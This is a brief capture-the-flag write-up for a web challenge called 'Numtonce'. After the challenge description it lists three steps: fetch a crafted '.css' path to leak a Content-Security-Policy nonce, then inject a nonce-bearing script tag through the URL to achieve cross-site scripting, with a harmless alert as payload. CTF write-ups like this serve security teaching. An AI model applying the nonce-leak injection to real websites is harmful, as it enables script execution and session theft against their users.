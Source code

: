 # Numtonce
(**N**umber **U**ser **M**ore **T**han **Once**)

**Category:** Web  
**Points:** 499
**Solves:** 7

## Description
With all the bad news in the world, everyone needs a calm place to wind down. [We built one](https://numtonce.fluxfingersforfuture.fluxfingers.net/), but you have to help us keep it safe. If you find anything suspicious, [tell the forest ranger](https://numtonce.fluxfingersforfuture.fluxfingers.net/submit/)! He might reward you with a cookie :)

## Exploit
1. visit `http://$hostname/index.php/$random.css`
2. extract nonce from response
3. use this: `http://$hostname/index.php/$random.css#$hostname<script nonce=$nonce>alert(1)</script>`
